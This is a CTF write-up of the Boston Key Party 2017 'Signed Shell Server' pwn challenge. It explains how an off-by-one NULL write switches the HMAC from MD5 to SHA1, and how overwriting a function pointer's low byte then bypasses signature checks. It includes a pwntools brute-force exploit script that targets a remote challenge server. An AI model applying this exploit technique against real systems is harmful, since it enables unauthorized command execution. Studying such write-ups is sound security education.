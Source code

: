 ```yaml
---
layout: post
title: "Boston Key Party 2017: Signed Shell Server (pwn 200)"
author: f0rki, creed
categories: writeup
tags: [cat/pwn]
---
```


* **Category:** pwn
* **Points:** 200

## Write-up

You can do two things:

1. Sign a command
2. Execute a signed command

```
Welcome to Secure Signed Shell
1) sign command
2) execute command
>_ 1
what command do you want to sign?
>_ ls
signature:
0fcc9e22ff4cec3f5afbaf5906dba086
```

So we can see that the challenge signs with md5 by default!

## out-of-bounds NULL byte write -- force switch to sha1 

They use a HMAC based on md5 or sha1 depending on a global flag (set based on
argc). We call this `use_md5`. This is a byte sized varialbe that is placed
right behind the `global` buffer, which has size `0x100`. We can overwrite the
`use_md5` flag with a zero byte with the calls:

```
i = read(global, 0x100, 0); // send exactly 255 bytes
global[i] = 0;              // out of bounds write to the use_md5 flag
```

This snippet of code is repeated in both the `sign_it` and `execute_it`
functions.

## overwrite least significant byte of a function pointer

There is a off-by-one error, which allows us to overwrite the last byte of the
first function pointer. We are targeting the `deny_ptr` in this struct:

```
struct exec_guy {
    char hash[20];
    void (*deny_ptr)(char*);
    void (*success_ptr)(char*);
}
```

At the start of the `execute_it` function, `exec_guy` will be set to either
`m_exec_guy` or `s_exec_guy` depending on whether md5 or sha1 is used. If the
`use_md5` flag is true, the `exec_guy` is set to 
`s_exec_guy + 1 == m_exec_guy`. If we switch to using SHA1 afterwards, the HMAC
is copied to `exec_guy`, which is actually `s_exec_guy + 1`. So there is one
byte too less available for a full SHA1 HMAC and it will overflow into the
first byte of the `deny_ptr` field.

Since we're on little endian, this means we can control the least significant
byte of the function pointer. If we change the `deny_ptr` to the `success_ptr`
we effectively bypass the signature check.

```
[0x004010a0]> afl~command
0x00400d36    1 0    -> 37   sym.deny_command
0x00400d5b    1 0    -> 27   sym.exec_command
```

So we have to find a HMAC, whose last byte is `0x5b`. So first we checked
whether one of the HMACs we could legitimately obtain would fit our purposes.
We can do this by switching to SHA1 with an overlong command in the `sign_it`
function and then obtain the HMACs:

```
[*] 'ls' -> '4b0eef0a2c6a48fd0f52460231fe61bbfa8f314c' --> 0x400d4c     <-- printf something
[*] 'pwd' -> 'bf34cf2a14f5bbde6c75da9c6ba421fd57772d68' --> 0x400d68    <-- this jumps inside the right function at least, but seems to break
[*] 'id' -> 'e1b428253b9c847348c522e27d00a151f7db9458' --> 0x400d58     <-- nop; leave;ret
[*] 'whoami' -> 'ce6bd6b5229cf202a96ece2b36763e1adec566d1' --> 0x400dd1 <-- somewhere inside init_key
```

So none of those did work out in the end. The `pwd` HMAC looked pretty
promising as it triggers a jump into the `exec_command` function. But then crap
is loaded into the registers and it fails.

To use one of these commands we need to still send an overlong line, with
contents are not hashed. The HMAC covers only up to the first NULL byte, so we
can send for example:

```python
"ls\n" + "\x00" * 253
```

This allows us to trigger the overflow, with a known HMAC.

## exploit recap

0. Call `execute_it`
1. First `exec_guy` is set to `m_exec_guy`, because `use_md5` is true.
2. Use off-by-one error to overwrite the `use_md5` flag with 0, so that SHA1 
   will be used. `exec_guy` is still set to `m_exec_guy`.
3. `memcpy` call at `0x00401261` will then overwrite the least significant 
   byte of the first function pointer.
    - The `src` of `memcpy` is the computed SHA1 HMAC
    - We need to find a HMAC which ends in `0x5b`
4. The function pointers are always loaded relative to the `m_exec_guy` so we 
   can use them safely even if we switched to SHA1
5. shell? shell! (or just cat flag)

In the end we just opted to bruteforce, until we hit a byte that worked. We
tried with a bunch of commands:

```
cat flag; echo <random stuff>
```

Eventually we got a working byte and the flag.

```python
from pwn import *  # noqa
import string
import random 

velf = ELF("./sss")
# this is the byte we'd need...
last_byte = velf.symbols['exec_command'] & 0xff
log.info("last byte of exec_command 0x{:x}".format(last_byte))

env = {"LD_PRELOAD": os.path.join(os.getcwd(), "./libcrypto.so.1.0.0")}

def make_vp():
    #return process("./sss_dealarmed", env=env)
    return remote("54.202.7.144", 9875)

# less verbosity for pwntools
context.log_level = "error"
while True:
    cmd = "cat flag; echo " + "".join(random.sample(string.letters, 5))
    vp = make_vp()
    # gdb.attach(vp, gdbscript)

    try:
        # now overflow into the use_md5 flag
        # which triggers a buffer overflow into the fptr
        vp.recvuntil(">_")
        vp.sendline("2")
        vp.recvuntil(">_")
        c = "{}\n\x00".format(cmd)
        c += "\x00" * (256 - len(c))
        vp.send(c)
        vp.recvuntil(">_")
        vp.sendline("wurscht")
        line = vp.recvrepeat(timeout=0.5)
        log.info("got line: " + repr(line))

    except:
        pass
    
    vp.close()
```
